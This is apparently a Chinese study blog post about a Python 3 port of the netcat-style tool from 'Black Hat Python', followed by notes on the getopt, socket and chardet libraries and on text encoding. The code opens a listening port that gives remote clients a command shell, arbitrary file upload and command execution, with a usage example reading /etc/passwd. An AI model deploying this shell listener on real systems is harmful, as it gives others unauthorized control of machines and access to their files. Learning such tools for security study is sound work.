

前言
Python学了一年了，仍然有那种不能如臂使指的感觉。想进一步提升自己的编程能力。就去看了Justin Seitz的《Python黑帽子》，书很不错，开阔了眼界，对Python又有了新的认识，准备深研读这本书。
正文
本来想自己改进一下书上写的代码，网上冲浪时发现已经有人早就写了。附上https://blog.csdn.net/qq_40549070/article/details/108193537
代码
import sys
import getopt
import threading
import chardet
import subprocess
import socket
# 定义一些全局变量
listen = False
command = False
execute = ""
upload_destination = ""
target = ""
port = 0
def usage():
print("BHP Net Tool")
print("Usage: bhpnet.py -t target_host -p port")
print("-l --listen -listen on [host]:[port] for incoming connections")
print("-e --execute=file_to_run -execute the given file upon receiving a connection")
print("-c --command -initialize a command shell")
print("-u --upload=destination -upon receiving connection upload a file and write to [destination]")
print("Examples:")
print("bhpnet.py -t 192.168.0.1 -p 5555 -l -c")
print("bhpnet.py -t 192.168.0.1 -p 5555 -l -u=c:\\target.exe")
print("bhpnet.py -t 192.168.0.1 -p 5555 -l -e=\"cat /etc/passwd\"")
print("echo 'ABCDEFGHI' | ./bhpnet.py -t 192.168.11.12 -p 135")
sys.exit(0)
def main():
global listen, command, execute, upload_destination, target, port
if not len(sys.argv[1:]):
usage()
# 读取命令行选项
try:
opts, args = getopt.getopt(sys.argv[1:], "hle:t:p:cu:", ["help", "listen", "execute=", "target=", "port=", "command", "upload="])
except getopt.GetoptError as err:
print(str(err))
usage()
for o, a in opts:
if o in ('-h', "--help"):
usage()
elif o in ("-l", "--listen"):
listen = True
elif o in ("-e", "--execute"):
execute = a
elif o in ("-t", "--target"):
target = a
elif o in ("-p", "--port"):
port = int(a)
elif o in ("-c", "--command"):
command = True
elif o in ("-u", "--upload"):
upload_destination = a
else:
assert False, "Unhandled Option"
# 我们是进行监听还是仅从标准输入发送数据？
if not listen and len(target) and port > 0:
# 从命令行读取内存数据
# 这里将阻塞，所以不在向标准输入发送数据时发送ctrl-D
buffer = sys.stdin.read()
# 发送数据
client_sender(buffer)
# 我们开始监听并准备上传文件、执行命令
# 放置一个反弹shell
# 取决于上面得命令行选项
if listen:
server_loop()
def server_loop():
global target
# 如果没有定义目标，那么我们监听所有接口
if not len(target):
target = "0.0.0.0"
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((target, port))
server.listen(5)
while True:
client_socket, addr = server.accept()
# 分析一个线程处理新的客户端
client_thread = threading.Thread(target=client_handler, args=(client_socket, ))
client_thread.start()
def client_sender(buffer):
# 连接到目标主机
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
client.connect((target, port))
if len(buffer):
client.send(buffer.encode('utf-8'))
while True:
# 现在等待数据回传
recv_len = 1
response = ""
while recv_len:
data = client.recv(4096).decode('utf-8')
recv_len = len(data)
response += data
if recv_len < 4096:
break
print(response)
# 等待更多输入
# 这里python2使用的是raw_input()，在python3中取消了此函数，input()可以起到相同的作用
buffer = input("")
buffer += '\n'
# 发送数据
client.send(buffer.encode('utf-8'))
except:
print("[*] Exception! Exiting.")
# 关闭连接
client.close()
def run_command(command):
# 处理多余得空格和换行符
command = command.rstrip()
try:
# 先解码，再执行命令
command = command.decode('utf-8')
# 运行命令并将输出返回
output = subprocess.check_output(command, stderr=subprocess.STDOUT, shell=True)
# 这里所返回的命令结果都是以系统shell默认编码的形式返回。
except:
output = b"Failed to execute command.\r\n"
# 将输出发送
return output
def client_handler(client_socket):
# 检测上传文件
if len(upload_destination):
# 读取所有都字符并写下目标
file_buffer = ""
# 持续读取数据直到没有符合得数据
while True:
data = client_socket.recv(1024).decode('utf-8')
if not data:
break
else:
file_buffer += data
# 现在我们接受这些数据并将他们写出来
try:
with open(upload_destination, "wb") as file_descriptor:
file_descriptor.write(file_buffer)
client_socket.send(str.encode('Successfully saved file to %s' % upload_destination))
except:
client_socket.send(str.encode('Failed saved file to %s' % upload_destination))
# 检查执行命令
if len(execute):
output = run_command(execute)
client_socket.send(output.encode('utf-8'))
# 如果需要一个命令行shell，那么我们进入另一个循环
if command:
while True:
# 跳出一个窗口
client_socket.send(b'<BHP:#>')
cmd_buffer = ""
cmd_buffer = str.encode(cmd_buffer)
# 现在我们接收文件直到发现换行符
while '\n' not in cmd_buffer.decode('utf-8'):
cmd_buffer += client_socket.recv(1024)
# 返还命令输出
response = run_command(cmd_buffer)
# 这里使用detect函数进行判断字节编码，并按照结果进行解码。
btype = chardet.detect(response)
if btype['encoding'] == 'GB2312':
response = response.decode('gbk')
response = str.encode(response)
# 发送响应数据
client_socket.send(response)
if __name__ == '__main__':
main()
前提学习
没有用过getopt库（可之前学了optparse库，optparse也能实现这个功能），于是就去学getopt库
getopt库学习
getopt是一个命令行选项解析器。
getopt的函数之一：
getopt.getopt(args, shortopts, longopts=[])
args为要解析的参数列表，不包含argv[0]，即：文件名。
shortopts为脚本所要识别的字母选项，如：-h
longopts为一个被支持的长选项名称组成的列表，如：–help
关于shortopts：
shortopts是一个字母；
它可以写成纯字符：o，也可以写成带一个-的形式：-o。
如果某一个选项后面有参数，那么它的后面就会带一个冒号：o:或者-o:。
当有好几个短操作参数时，可以直接写到一起：’abcd’或者’-abcd’或者’-ab-c-d’，可随意组合。
import getopt
parses = "-c -p 3306 -h 192.168.1.1 a1 a2".split()
optlist, args = getopt.getopt(parses, 'cp:h:')
输出
'''
>>> optlist
[('-c', ''), ('-p', '3306'), ('-h', '192.168.1.1')]
>>> args
['a1', 'a2']
'''关于longopts:
longopts必须写在[]中，且放在一对单引号中：[‘–help’]
如果想承接参数，则要在后面加一个=：[‘–help=’]
longopts必须用逗号隔开，且每个都在一对单引号中
使用长选项名的例子：
>>> import getopt
>>> s = '--condition=foo --testing --output-file abc.def -x a1 a2'
>>> args = s.split()
>>> args
['--condition=foo', '--testing', '--output-file', 'abc.def', '-x', 'a1', 'a2']
>>> optlist, args = getopt.getopt(args, 'x', ['conditions=', 'output-file=', 'testing'])
>>> optlist
[('--conditions', 'foo'), ('--testing', ''), ('--output-file', 'abc.def'), ('-x', '')]
>>> args
['a1', 'a2']#options存的是短格式和长格式
#args存的是除短格式和长格式之外的，也就是存没有-和–的
socket库
再复习一下怎么建立TCP通信
创建一个TCP client端的流程
- 创建套接字
- client_s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0) 协议号可以省略
- 建立连接
- client_s.connect((ip, port))
- 接收数据或者发送数据
- client_s.recv(bufsize) 接收数据，数据以bytes类型返回，bufsize指定要接收的最大数据量。
- client_s.send() 发送数据。返回值是要发送的字节数量。
- client_s.sendall() 完整发送数据。将数据发送到连接的套接字，但在返回之前会尝试发送所有数据。成功返回None，失败则抛出异常。
- 关闭连接
- client_s.close()
创建一个TCP server端的流程
- 创建套接字 server_s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
- 把套接字绑定到本地IP与端口 server_s.bind((IP, port))
- 设置最大连接数量 server_s.listen(5) 设置你想设置的数字
- 等待连接
- server_s.accept() 被动接受客户端连接,(阻塞式)等待连接的到来，并返回（conn,address）二元元组,其中conn是一个通信对象，可以用来接收和发送数据。address是连接客户端的地址。
- 接收数据或者发送数据
- 注意事项：
- Python3以后，socket传递的都是bytes类型的数据，字符串需要先转换一下，string.encode()即可；另一端接收到的bytes数据想转换成字符串，只要bytes.decode()一下就可以。
- 在正常通信时，accept()和recv()方法都是阻塞的。所谓的阻塞，指的是程序会暂停在那，一直等到有数据过来。
- 注意事项：
- 关闭连接
- server_s.close()
chardet库
网上冲浪找到廖雪峰老师的博客https://www.liaoxuefeng.com/wiki/1016959663602400/1183255880134144
字符串编码一直是令人非常头疼的问题，尤其是我们在处理一些不规范的第三方网页的时候。虽然Python提供了Unicode表示的str和bytes两种数据类型，并且可以通过encode()和decode()方法转换，但是，在不知道编码的情况下，对bytes做decode()不好做。
对于未知编码的bytes，要把它转换成str，需要先“猜测”编码。猜测的方式是先收集各种编码的特征字符，根据特征字符判断，就能有很大概率“猜对”。
当然，我们肯定不能从头自己写这个检测编码的功能，这样做费时费力。chardet这个第三方库正好就派上了用场。用它来检测编码，简单易用。
使用chardet
chardet的使用非常简单，主模块里面只有一个函数detect。detect有一个参数，要求是bytes类型。bytes类型可以通过读取网页内容、open函数的rb模式、带b前缀的字符串、encode函数等途径获得。
当我们拿到一个bytes时，就可以对其检测编码。用chardet检测编码，只需要一行代码：
>>> chardet.detect(b'Hello, world!')
{'encoding': 'ascii', 'confidence': 1.0, 'language': ''}检测出的编码是ascii，注意到还有个confidence字段，表示检测的概率是1.0（即100%）。
我们来试试检测GBK编码的中文：
>>> data = '离离原上草，一岁一枯荣'.encode('gbk')
>>> chardet.detect(data)
{'encoding': 'GB2312', 'confidence': 0.7407407407407407, 'language': 'Chinese'}检测的编码是GB2312，注意到GBK是GB2312的超集，两者是同一种编码，检测正确的概率是74%，language字段指出的语言是’Chinese’。
decode与encode的区别
这两个函数，一直感觉理解的有些模糊，今天深入研究一下
2020年12月3日14:32:14
encode：编码
decode：解码
python内部编码方式为unicode，decode将其他编码方式转换成unicode编码方式，encode将unicode转换成其他编码方式。
因此unicode相当于一个中转:
(1)decode->unicode->encode
(2)encode->unicode->decode字符串在Python内部的表示是unicode编码，因此，在做编码转换时，通常需要以unicode作为中间编码，即先将其他编码的字符串解码（decode）成unicode，再从unicode编码（encode）成另一种编码。
decode的作用是将其他编码的字符串转换成unicode编码，如str1.decode(‘gb2312’)，表示将gb2312编码的字符串str1转换成unicode编码。
encode的作用是将unicode编码转换成其他编码的字符串，如str2.encode(‘gb2312’)，表示将unicode编码的字符串str2转换成gb2312编码。
代码详解
这里需要特别注意编码问题，这里引入了个第三方库chardet用于解决此类问题，在linux系统中默认编码为utf-8，在windows系统中默认编码为gbk。
usage():用于帮助理解程序的作用以及用法。
server_loop():服务端主循环，用于接受客户端连接，返还客户端套接字。
client_sender()：用于连接服务端，首先检测是否已经从标准输入中接收数据，如果一切正常，就将数据发送给远程的目标主机并接受回传数据，知道没有更多的数据发送回来，然后再等待用户的下一步输入，并继续发送和接受数据，直到用户结束程序。
run_command():提供与客户端交互的方法，通过连接将命令结果回传到客户端。
client_handler():提供上传文件，执行命令，反弹shell的功能。鸽一段时间
2020年12月2日22:56:23
没搞完，有时间在搞，非常喜欢用代码去实现一些东西，哎我应该学开发的。。。
要一心搞web安全了。
下图是在linux与windows上进行程序测试
图一
图二
图三
图四
总结
学习到了制作Unix和Linux风格这种的后面接选项的工具。通过设置全局变量来达到不同的功能，这种编程思想开拓了我的眼界。